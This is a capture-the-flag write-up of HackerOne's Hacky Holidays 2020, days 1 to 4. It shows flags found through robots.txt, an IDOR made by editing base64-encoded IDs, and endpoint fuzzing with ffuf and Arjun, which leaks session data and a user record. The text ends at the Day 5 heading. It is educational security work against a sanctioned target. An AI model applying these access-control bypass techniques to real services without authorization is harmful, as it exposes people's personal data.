








# Hacky Holidays 2020 CTF Writeup

With the arrival of the Christmas holydays, Hackerone hosted a CTF with a main topic :

>The Grinch has gone hi-tech this year with the intentions of ruining the holidays and we need you to infiltrate his network and take him down! 

### Summary :

TODO image with draw.io

## Day 1
The CTF begins with a tweet :  



Going to the H1 CTF program page https://hackerone.com/h1-ctf, we have a domain in scope : **hackyholidays.h1ctf.com**  
To start with, we don't have much on the website, so I started a recon phase and came across the robots.txt file that will give us the first flag !  

=> https://hackyholidays.h1ctf.com/robots.txt
  
```
User-agent: *
Disallow: /s3cr3t-ar3a
Flag: flag{48104912-28b0-494a-9995-a203d1e261e7}
```
  

The robots.txt file will give us a track for the second flag with the 'Disallow' tag : ```Disallow: /s3cr3t-ar3a```.  

## Day 2 

We leave then on the url https://hackyholidays.h1ctf.com/s3cr3t-ar3a :   



First of all, we realize that the original page has been moved and that only the people authorized to see it, know where to go.  
By analyzing the code of the page, nothing interesting at first glance.  But by comparing the jquery file of the site and the original, we realize that this one has been modified in order to display the flag !  



Then we find the flag : ```flag{b7ebcb75-9100-4f91-8454-cfb9574459f7}```  and we find the way for the next challenge ```next-page="/apps"``` ! 

## Day 3 - People Rater

On the /apps page, we get the link to go to the **people-rater** application, once on the application, we have a list of people, clicking on each of them we get details about the current person.  

 

Details about Tea Avery : 

  

By decoding in Base64 the ID parameter : ```echo 'eyJpZCI6Mn0=' | base64 -d ```  => ```{"id":2}```  
In this kind of case, authorization vulnerabilities may exist, so I try to change ```{"id":2}``` to ```{"id":1}```.  
All encoded in base64, we get access to **The Grinch** user information details !   



FLAG 3 : flag{b705fb11-fb55-442f-847f-0931be82ed9a}

## Day 4 - Swag shop
On this app, main goal is : 
> Get your Grinch Merch! Try and find a way to pull the Grinch's personal details from the online shop.  

When we arrive on the application, we have 3 products for sale, the source code tells us more about how the application works.  
We have the following javascript code: 

```
$.getJSON("/swag-shop/api/stock", function(o) {
    $.each(o.products, function(o, t) {
        $(".product-holder").append('<div class="col-md-4 product-box"><div></div><div class="text-center product-name">' + t.name + '</div><div class="text-center product-cost">&dollar;' + t.cost + '</div><div class="text-center"><input type="button" data-product-id="' + t.id + '" class="btn btn-success purchase" value="Purchase"></div></div>')
    }), $("input.purchase").click(function() {
        $.post("/swag-shop/api/purchase", {
            id: $(this).attr("data-product-id")
        }, function(o) {
            window.location = "/swag-shop/checkout/" + o.checkoutURL
        }).fail(function() {
            $("#login_modal").modal("show")
        })
    })
}), $(".loginbtn").click(function() {
    $.post("/swag-shop/api/login", {
        username: $('input[name="username"]').val(),
        password: $('input[name="password"]').val()
    }, function(o) {
        document.cookie("token=" + o.token), window.location = "/swag-shop"
    }).fail(function() {
        alert("Login Failed")
    })
});
```
Some paths seem interesting !  
Our goal here is to retrieve the Grinch's personal data.  
After a few attempts to bypass the authentication, I started a recon phase, thanks to this one, I was able to retrieve two new paths !  

With FFUF : ```ffuf -u https://hackyholidays.h1ctf.com/swag-shop/api/FUZZ -w wordlist.txt -mc all -t 3```   
  
```
user                    [Status: 400, Size: 35, Words: 3, Lines: 1]
sessions                [Status: 200, Size: 2194, Words: 1, Lines: 1]
```

By examining the **sessions** path, I am able to retrieve several strings encoded in base64 :   
  
  
We notice that one of the character strings is longer than the others :   
```
echo -n "eyJ1c2VyIjoiQzdEQ0NFLTBFMERBQi1CMjAyMjYtRkM5MkVBLTFCOTA0MyIsImNvb2tpZSI6Ik5EVTBPREk1TW1ZM1pEWTJNalJpTVdFME1tWTNOR1F4TVdFME9ETXhNemcyTUdFMVlXUmhNVGMwWWpoa1lXRTNNelUxTWpaak5EZzVNRFEyWTJKaFlqWTNZVEZoWTJRM1lqQm1ZVGs0TjJRNVpXUTVNV1E1T1dGa05XRTJNakl5Wm1aak16WmpNRFEzT0RrNVptSTRaalpqT1dVME9HSmhNakl3Tm1Wa01UWT0ifQ==" | base64 -d

{"user":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043","cookie":"NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="}
```

Using the Arjun tool, we are then able to retrieve the valid parameters from the path '/swag-shop/api/user': 

 

Thanks to @s0md3v ! (https://github.com/s0md3v/Arjun)

Now, you just have to request ```/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043```  : 

```
{
  "uuid": "C7DCCE-0E0DAB-B20226-FC92EA-1B9043",
  "username": "grinch",
  "address": {
    "line_1": "The Grinch",
    "line_2": "The Cave",
    "line_3": "Mount Crumpit",
    "line_4": "Whoville"
  },
  "flag": "flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}"
}
```

## Day 5 - Secure Login

